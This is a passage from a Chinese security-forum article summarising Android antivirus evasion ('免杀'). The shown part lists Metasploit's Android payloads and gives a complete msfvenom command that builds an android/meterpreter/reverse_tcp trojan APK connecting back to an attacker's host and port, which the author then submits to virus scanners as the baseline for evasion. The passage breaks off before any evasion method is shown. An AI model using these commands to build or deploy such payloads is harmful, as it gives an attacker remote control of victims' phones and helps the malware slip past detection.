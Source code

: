 

# Android免杀小结 - 先知社区

Android免杀小结

* * *

> 免杀练习两年半

VT检测 [https://www.virustotal.com/gui/home/upload](https://www.virustotal.com/gui/home/upload)

## msfvenom 自动生成

查看一下msfvenom里面的android木马

```plain
msfvenom -l payloads | grep android
```

[![](assets/1701606948-12cf62e93aab9a54b41ed0c774260914.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009101930-472617e4-664a-1.png)

  
使用 android/meterpreter/reverse\_tcp

```plain
msfvenom -p android/meterpreter/reverse_tcp LHOST=ip LPORT=10008 R > black.apk
```

[![](assets/1701606948-7ec0e4b20146ffc0ccd882e603adac00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102010-5f37bcc0-664a-1.png)  
  
直接使用msfvenom生成的病毒APK，丢到VirScan里面  
  